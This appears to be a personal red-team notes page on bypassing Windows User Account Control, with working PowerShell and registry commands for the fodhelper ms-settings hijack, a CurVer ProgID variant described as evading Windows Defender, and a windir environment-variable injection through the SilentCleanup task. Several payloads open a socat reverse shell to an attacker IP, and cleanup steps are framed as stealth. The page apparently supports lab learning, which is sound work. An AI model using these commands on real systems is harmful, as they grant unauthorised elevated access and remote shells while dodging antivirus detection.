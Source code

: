 # Bypassing Windows User Account Control

For the fundamentals of UAC see [[Windows-User-Account-Control]]

When creating a backdoor for [[Persistence]] for that flag based [[Windows-Persistence]], you may see this error:
```powershell
net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

`whoami /groups` will show that the session is running in medium Integrity Levels, UAC prevents even Administrators from performing administrative tasks with filtered token.

Beware restrictions on PowerShell script usage on Windows 11.

## GUI Based Bypasses

#### `msconfig`

From the `Search -> Run`  open `msconfig`, using the [[Process-Hacker]] if it runs with High IL: navigate to the `Tools` tab and select `Command Prompt` 

#### `azman.msc `
From the `Search -> Run`  open, using the [[Process-Hacker]] if it runs with High IL: Click the tab `Help -> Help Topics -> Right-Click -> View-Source`, which will open notepad `File -> Open C:\Windows\System32\cmd.exe`, but then when you find it in the file listing `Right-Click -> Open`

## UAC AutoElevate Processes

Some executable can auto-elevate to high IL - most of Control Panel's functionality and some native executables. Requirements for auto-elevation:
1. The executable must be signed by Windows Publisher
2. The executable must be contained in trusted directory, like `%SystemRoot%/System32/` or ``%ProgramFiles%/`

Additional requirements depending on application:
	1. Executable files must declare the `AutoElevate` element inside their manifests - use [[Sysinternals-Sigcheck]] to check manifest.
	2. `mmc.exe` will auto elevate depending on the `.msc` snap-in that the user requests - most Windows `.msc` files will auto-elevate.
	3. Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. [[UAC-AutoElevate-List]]
	4. COM objects can request auto-elevation by configuring registry keys [Docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)

#### `fodhelper.exe`
`fodhelper.exe` is default windows executable in charge of managing Windows optional features, infamously used in [Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit). Fodhelper can auto elevate when using default settings and can be exploited without GUI access. 

Create a association for `ProgID` for a file in current users `HKCU`, allow us to override the default system-wide association and control the `command` used to open that file. To elaborate, the Programming ID (ProgID) key in the registry is associated with the application. Windows prioritises the `HKCU` over the `HKLM` key. The command used to specify the subkey located within the registry tree  `shell/open/command`. 

```powershell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f

```

Delete for stealth:
```powershell
reg delete HKCU\Software\Classes\ms-settings\ /f
```

Query to check:
```powershell
reg query %REG_KEY% /v ""
```

[netbiosX - Bypass UAC via Fodhelper binary in Windows 10 systems](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)
```powershell 
# default and example here:
# $program = "cmd /c start C:\Windows\System32\cmd.exe" 
$program = "cmd /c start C:\ProgramData\beacon"
# Create Registry Structure
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force

# Start fodhelper.exe
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

# Cleanup
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
Also used by LockBit for Privilege Escalation
[YouTube Guided Hacking: Analyzing A LockBit Ransomware KillChain - Malware Analysis](https://www.youtube.com/watch?v=o0fvdfEmQAk)

## Windows Defender

Same as the above, but the final line is:
```batch
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Warning this may still fail. It succeeds base whether the payload or AV executes first. It is still detected by Windows Defender. The improved version is from :[v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

Instead of \\Shell\\Open\\command, we use `CurVer` entry under a progID registry key, which commonly used when you have multiple instances of an application with different version running on the same system, `CurVer` points to a default version.

Modified [v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) version from [[Tryhackme]].
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

# create new progID with name .pwn  
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

# points to CrVer entry of ms-settings
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

It is more likely to evade Windows Defender as name of the progID that holds our payload is entirely arbitrary. Instead of Windows Defender matching a single indicator, the pointing is transitive and therefore evasive as it encapsulated in the act of point, data-wise. But AV detection methods are implemented strictly against the published exploit so: 
```powershell
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

Clean up:
```powershell
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC Environment Variable Expansion

If UAC is configured to `Always Notify`, similar AutoElevate exploitable application won't work. Instead scheduled tasks that can be run by any user, but executed at highest privileges available to the caller - disabling Windows Defender prior to this is required.

Using `Task Scheduler` tasks can set `When running the task, use the following user account: Run only when user is logged on; Run whether user is is logged on or not - [] Do not store password. The task will only have access to local resources` plus it has another checkbox for `Run with highest privileges`, this will use the highest Integrity Level the user has - this is an so Administrator only exploit.

For example(with` Task Scheduler` open) with `DiskCleanup`:
`Double Click Task -> GOTO -> Actions tab`; if the run on-demand command depends on environment variables it is possible to inject commands and then have the task execute them by starting it manually.

`%windir%` can be overridden by creating an entry in the `HKCU\Environment`
set `%windir%` to `"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

**Be sure to note the executed command to avoid any artefact interfering with anything else.  Since many Windows components rely on the `%windir%` environment variable, a lot of things won't properly work until you remove the registry key used for this bypass.**

```powershell
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

And for the cleanup
```powershell
reg delete "HKCU\Environment" /v "windir" /f
```

## UACME

[UACME Github](https://github.com/hfiref0x/UACME) *"Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor."* Be warned the naming convention is not-descriptive. And therefore will probably require cataloguing them myself.
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account with UAC set on default settings required.

Run executable from command line: `akagi32` [[UACME-Keys]] Param or `akagi64` [[UACME-Keys]] Param. 

First parameter is number of method to use, second is optional command (executable file name including full path) to run. Second parameter can be empty - in this case program will execute elevated `cmd.exe` from system32 directory. See listing of keys locally: [[UACME-Keys]] or [externally](https://github.com/hfiref0x/UACME)

## Reference

[COM Elevation Moniker Documentation](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)
[Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)
[v3ded Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
[UACME Github](https://github.com/hfiref0x/UACME) 
[netbiosX - Bypass UAC via Fodhelper binary in Windows 10 systems](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)
[YouTube Guided Hacking: Analyzing A LockBit Ransomware KillChain - Malware Analysis](https://www.youtube.com/watch?v=o0fvdfEmQAk)